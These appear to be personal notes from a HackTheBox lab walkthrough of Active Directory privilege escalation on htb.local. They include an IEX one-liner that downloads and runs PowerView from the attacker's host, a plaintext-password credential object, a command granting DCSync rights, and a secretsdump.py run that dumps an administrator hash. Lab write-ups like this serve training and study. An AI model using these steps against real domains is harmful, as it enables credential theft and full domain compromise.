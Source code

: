 ![[Pasted image 20241212182612.png]]

New user has permissions to modify the DACL on the domain htb.local. IE we can grant ourselves any privilege we want on the object. 

![[Pasted image 20241212182818.png]]
Grab #powerview from GitHub

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Serve up PowerView using #pythonhttpserver

`python3 -m http.server 80`

![[Pasted image 20241212183613.png]]

Download onto remote host 

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/PowerView.ps1')`

![[Pasted image 20241212183809.png]]

Enter password for user we just created

`$pass = convertto-securestring 'Penny1!' -AsPlainText -Force`

`$cred= New-Object System.Management.Automation.PSCredential('rachello', $pass)`

Then run recommended command from Bloodhound for adding domain object acl

`Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync`


![[Pasted image 20241212184231.png]]
Ran into issue with powersploit version
![[Pasted image 20241212184408.png]]
Solution: grabbing powersploit from the `dev` branch instead

![[Pasted image 20241212184542.png]]
Tool to dump everything #secretsdump.py

`secretsdump.py` is part of #impacket 

On kali box run:

`./secretsdump.py htb.local/rachello:Penny1!@10.10.10.161`



Bloodhound command was wrong so modifying it to

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rachello -Rights DCSync`

Re-running `secretsdump.py` and got an administrator password hash

![[Pasted image 20241212185605.png]]
